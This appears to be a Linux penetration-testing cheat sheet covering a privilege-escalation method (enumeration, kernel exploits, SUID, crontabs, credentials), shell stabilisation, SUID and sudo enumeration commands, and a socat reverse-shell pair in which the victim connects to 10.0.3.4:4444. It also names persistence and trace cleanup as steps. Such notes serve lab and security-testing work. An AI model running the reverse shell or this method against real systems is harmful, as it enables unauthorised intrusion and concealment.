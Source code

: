 # Cheat Sheet
___________

    Recon - Scan for vulnarable targets, gather info on target.
    Collect - Enumeration, more enumeration and some more enumeration.
    Process - Sort through data, analyse and prioritisation.
    Search - Know what to search for and where to find the exploit code.
    	Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
    	Locating other services running or applications installed that may be abusable (SUID & out of date software)
    	Looking for automated scripts like backup scripts (exploiting crontabs)
    	Credentials (user accounts, application config files..)
    	Mis-configured file and directory permissions
    Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
    Try - Get ready for (lots of) trial and error.
    Stay - Get a permanent foothold
    Cleanup - Leave no trace behinde
___________

## Stabilize Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

stty raw -echo; fg
```
## Get reverse shell
atk:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## Useful enumeration comands
List all processes runing as root
```
ps -aux | grep root
```
List all executibles with SUID set
```
find / -perm -u=s -type f 2>/dev/null
```
List what can be run with higher privileges
```
sudo -l
```
## Usefull common Linux commands

Make file executable
```
chmod +x filename
```
Double click in terminal
```
xdg-open [FILENAME]
```
What shell am I using
```
echo $0
```
Only show matches
```
2> /dev/null
```
Execute command/use file as another user
```
sudo -u "username" "path/to/command" "path/to/file"
```
## Python helper
Start a quick HTTP server
```
python3 -m http.server [PORT]
```
Spawn a shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
